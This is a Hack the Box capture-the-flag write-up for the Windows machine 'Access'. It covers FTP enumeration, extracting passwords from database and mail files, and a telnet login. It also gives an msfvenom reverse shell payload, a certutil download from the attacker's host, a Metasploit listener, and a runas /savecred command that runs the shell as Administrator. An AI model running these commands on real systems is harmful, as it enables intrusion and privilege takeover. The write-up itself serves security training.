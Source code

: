 ```yaml
---
layout: post
title: Hack the Box - Access
categories: hack-the-box
image: /hackthebox/access/0.png
---
```


<hr>
### summary 
#### Access retired today and here is my first write-up. Access is a Windows box which had a few challenges and used `runas` in a unique way that I have never used before. It's IP is 10.10.10.98.
![](/images/hackthebox/access/0.png)
<hr>
### nmap
#### We start off by grabbing some basic info with nmap:
`nmap -sC -sV -oA 10.10.10.98`
![](/images/hackthebox/access/1.png)
#### Looking at the nmap scan we can see ftp running on port 21, telnet on port 23, and http on port 80. We can also see that anonymous login on ftp is allowed which is something we definitely need to look at. Let's start with http and get a nikto scan going in the background before we look at ftp.
<hr>
### http enumeration 
#### All we see is a page titled "MegaCorp" with some text and an image. Source code doesn't give us anything either. Not much to go on here.
![](/images/hackthebox/access/2.png)
#### Let's get a nikto scan going in the background while we check out ftp:
`nikto -h http:\\10.10.10.98 > access_nikto.txt`
<hr>
### ftp enumeration
#### We saw on the nmap scan that anonymous login was allowed. After we login we see two directories; `Backups` and `Engineer`.
![](/images/hackthebox/access/3.png)
#### In `Backups` there is only one file called `backup.mdb`. In `Engineer` there is also only one file called `Access Control.zip`. We need to type `binary` to set the transfer mode to binary so we don't get a corrupted download. Then `get backup.mdb` and `get "Acccess Control.zip"` to download them:
![](/images/hackthebox/access/4.png)
<hr>
### finding credentials and getting user
#### `backup.mdb` is a Microsoft Access Database. We can check using `file` command:
![](/images/hackthebox/access/5.png)
#### If we look at `Access Control.zip` and try to unzip it we can see its password protected. So I'll focus on `backup.mdb` to see if we can find the password. To extract data from `backup.mdb` we need to install mdbtools:
`apt-get install mdbtools`
#### To list the tables in the database we use `mdb-tables`:
![](/images/hackthebox/access/6.png)
#### Looking through the tables we see a few interesting ones. The one we need to select data from is `auth_user`. We will use `mdb-export` to get the contents of that table:
`mdb-export backup.mdb auth_user`
![](/images/hackthebox/access/7.png)
#### We see a list of usernames and passwords. If we try each of the passwords on `Access Control.zip` we find that `access4u@security` works! The file extracted is called `Access Control.pst`. If we run `file` on it we see that it's a Microsoft Outlook email folder.
![](/images/hackthebox/access/8.png)
#### We can use a tool called `readpst` to read the file. This will output another file called `Access Control.mbox` which we can `cat` to read the contents:
`readpst Access\ Control.pst`<br />
`cat Access\ Control.mbox`
![](/images/hackthebox/access/9.png)
#### We see in the email credentials for an account with the username of `security` and a password of `4CcessC0ntr0ller`. If we look back at our nmap scan we saw that telnet was available so we can try to telnet to the machine using these credentials.
`telnet 10.10.10.98`<br />
`dir`<br />
`cd Desktop`<br />
`dir`<br />
`type user.txt`
![](/images/hackthebox/access/10.png)
#### ...and there is user!
<hr>
### privilege escalation
#### We start off by enumerating the users. We see there are only three users on this machine; `Administrator`, `Public`, and `security`. If we try to `cd` into Administrator we get `Access is denied`.
![](/images/hackthebox/access/11.png)
#### If we check the Desktop folder of the `Public` user we find a shortcut called `ZKAccess3.5 Security System.lnk`. Let's use `type` and see what it contains:
![](/images/hackthebox/access/12.png)
#### `lnk` is a shortcut file so the output has a lot of junk, but if we look at how the application is executed we see it uses `runas` using `/savecred` and the Administrator user `/user:ACCESS\Administrator`. `runas` allows us to run commands as another user and `/savecred` lets us use saved credentials. We can also run `cmdkey /list` to check the system for saved credentials and we do see the `Administrator` user in there.
![](/images/hackthebox/access/13.png)
#### We now have a path to root. First lets generate a shell with `msfvenom`:
`msfvenom -p windows/shell/reverse_tcp LHOST=10.10.X.X LPORT=9001 -f exe > shell.exe`
![](/images/hackthebox/access/14.png)
#### Let's run a simple HTTP server with python and download `shell.exe` to the box. `python -m SimpleHTTPServer 80`:
`certutil -urlcache -split -f http://10.10.X.X/shell.exe shell.exe`
![](/images/hackthebox/access/15.png)
#### Now we need to setup a listener:
`msfconsole`<br />
`use exploit/multi/handler`<br />
`set payload windows/shell/reverse_tcp`<br />
`set LHOST 10.10.X.X`<br />
`set LPORT 9001`<br />
`run`
![](/images/hackthebox/access/16.png)
#### Finally we will use `runas` to get a reverse shell:
`runas /savecred /user:ACCESS\Administrator "c:\windows\system32\cmd.exe /c c:\users\security\shell.exe"`
#### ...and we have a shell!
![](/images/hackthebox/access/17.png)
#### root!
<br />
<br />
#### [@4252nez](https://twitter.com/4252nez)
#### Thank you for reading.
